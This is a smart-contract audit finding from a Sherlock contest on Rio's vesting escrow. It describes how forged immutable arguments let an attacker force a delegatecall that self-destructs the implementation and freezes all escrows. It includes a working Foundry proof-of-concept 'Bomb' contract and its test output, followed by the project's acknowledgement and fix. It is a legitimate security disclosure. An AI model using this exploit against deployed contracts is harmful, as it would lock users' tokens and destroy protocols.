 # Issue H-1: Vaults can be bricked by `selfdestruct()`ing implementations, using forged immutable args 

Source: https://github.com/sherlock-audit/2024-01-rio-vesting-escrow-judging/issues/60 

## Found by 
0xLogos, IllIllI, fugazzi, zzykxx
## Summary

The clone-with-immutable-args pattern is unsafe to use when one of the immutable arguments controls an address being delegated to.


## Vulnerability Detail

As was seen in the Astaria beacon proxy [issue](https://x.com/apoorvlathey/status/1671308196743647232?s=20), an attacker is able to forge the calldata that the proxy normally would forward, and can cause the implementation to `selfdestruct()` itself via a `delegatecall()`. The current code has a very similar vulnerability, in that every escrow performs a `delegatecall()` to an address coming from the factory, which is a forgeable immutable argument.


## Impact

By creating a fake `IVotingAdaptor`, and providing properly-formatted calldata to the implementation contract being passed to each factory, an attacker can gain control via the `delegatecall()` in order to `selfdestruct()` each of the factories' implementations, preventing each factory's escrows from functioning further, including the withdrawal of tokens by any party.


## Code Snippet

The `factory()` function gets its value from an immutable argument:
```solidity
// File: src/VestingEscrow.sol : VestingEscrow.factory()   #1

18        /// @notice The factory that created this VestingEscrow instance.
19        function factory() public pure returns (IVestingEscrowFactory) {
20            return IVestingEscrowFactory(_getArgAddress(0));
21:       }
```
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L18-L21

whose subsequent [responses](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L234-L236) end up being used with `delegatecall()`s:
```solidity
// File: src/VestingEscrow.sol : VestingEscrow.vote()   #2

152        /// @notice Participate in a governance vote using all available tokens on the contract's balance.
153        /// @param params The ABI-encoded data for call. Can be obtained from VotingAdaptor.encodeVoteCalldata.
154        function vote(bytes calldata params) external onlyRecipient whenVotingAdaptorIsSet returns (bytes memory) {
155            return _votingAdaptor().functionDelegateCall(abi.encodeCall(IVotingAdaptor.vote, (params)));
156:       }
```
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L152-L156

```solidity
// File: src/adaptors/OZVotingAdaptor.sol : OZVotingAdaptor.delegate()   #3

55        /// @notice Delegate votes.
56        /// @param params The ABI-encoded delegatee address.
57        function delegate(bytes calldata params) external {
58            IVotes(votingToken).delegate(abi.decode(params, (address)));
59:       }
```
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/adaptors/OZVotingAdaptor.sol#L55-L59

## Tool used

Manual Review


## Recommendation

Use a state/contract variable for anything requiring being delegated to.


## PoC

Because of a [foundry bug](https://github.com/foundry-rs/foundry/issues/1543) the test is not able to show the end result of the `selfdestruct()`, so I've added a print statement
```diff
diff --git a/rio-vesting-escrow/test/VestingEscrow.t.sol b/rio-vesting-escrow/test/VestingEscrow.t.sol
index eafb7dc..55c95a8 100644
--- a/rio-vesting-escrow/test/VestingEscrow.t.sol
+++ b/rio-vesting-escrow/test/VestingEscrow.t.sol
@@ -6,6 +6,20 @@ import {IVestingEscrow} from 'src/interfaces/IVestingEscrow.sol';
 import {OZVotingAdaptor} from 'src/adaptors/OZVotingAdaptor.sol';
 import {ERC20NoReturnToken} from 'test/lib/ERC20NoReturnToken.sol';
 import {ERC20Token} from 'test/lib/ERC20Token.sol';
+import {console} from 'forge-std/Test.sol';
+
+contract Bomb {
+    function attack(address impl) external {
+        (bool success, ) = impl.call(abi.encodePacked(bytes4(keccak256("vote(bytes)")), bytes32(0), address(this), address(this), address(this), uint40(block.timestamp), uint40(block.timestamp + 1), uint40(0), uint40(1), uint16(82)));
+        require(success);
+    }
+    function votingAdaptor() external view returns (address) { return address(this); } function factory() external view returns (address) { return address(this); } function recipient() external view returns (address) { return address(this); }
+    function vote(bytes calldata) external {
+        console.log("bomb is being delegatecall()ed to; calling selfdestruct()");
+        selfdestruct(payable(address(0)));
+    }
+}
+
 
 contract VestingEscrowTest is TestUtil {
     function setUp() public {
@@ -586,9 +600,11 @@ contract VestingEscrowTest is TestUtil {
         deployedVesting.revokeAll();
     }
 
-    function testRevokeAll() public {
+    function testRevokeAllBomb() public {
         uint256 ownerBalance = token.balanceOf(factory.owner());
 
+        new Bomb().attack(address(vestingEscrowImpl));
+
         vm.prank(factory.owner());
         deployedVesting.revokeAll();
 
diff --git a/rio-vesting-escrow/test/lib/TestUtil.sol b/rio-vesting-escrow/test/lib/TestUtil.sol
index 8667ef4..68c60ec 100644
--- a/rio-vesting-escrow/test/lib/TestUtil.sol
+++ b/rio-vesting-escrow/test/lib/TestUtil.sol
@@ -39,6 +39,7 @@ contract TestUtil is Test {
     OZVotingToken public token;
 
     VestingEscrow public deployedVesting;
+    VestingEscrow public vestingEscrowImpl;
 
     uint256 public amount;
     address public recipient;
@@ -52,8 +53,9 @@ contract TestUtil is Test {
         token = new OZVotingToken();
         governor = new GovernorVotesMock(address(token));
         ozVotingAdaptor = new OZVotingAdaptor(address(governor), address(token), config.owner);
+        vestingEscrowImpl = new VestingEscrow();
         factory = new VestingEscrowFactory(
-            address(new VestingEscrow()), address(token), config.owner, config.manager, address(ozVotingAdaptor)
+            address(vestingEscrowImpl), address(token), config.owner, config.manager, address(ozVotingAdaptor)
         );
 
         vm.deal(RANDOM_GUY, 100 ether);
```

output:
```text
% forge test --match-test testRevokeAllBomb -vvv
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/VestingEscrow.t.sol:VestingEscrowTest
[PASS] testRevokeAllBomb() (gas: 342335)
Logs:
  bomb is being delegatecall()ed to; calling selfdestruct()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.79ms
```




## Discussion

**solimander**

Acknowledged 👍 

**sherlock-admin2**

1 comment(s) were left on this issue during the judging contest.

**pratraut** commented:
> 'invalid due to owner who is deploying escrow contract is TRUSTED entity'



**solimander**

I believe this is valid. Forging of calldata variables will allow anyone to bypass protections and `selfdestruct` the implementation contract.

**solimander**

Not sure if I'm jumping the gun here, but fixed in https://github.com/rio-org/rio-vesting-escrow/pull/6

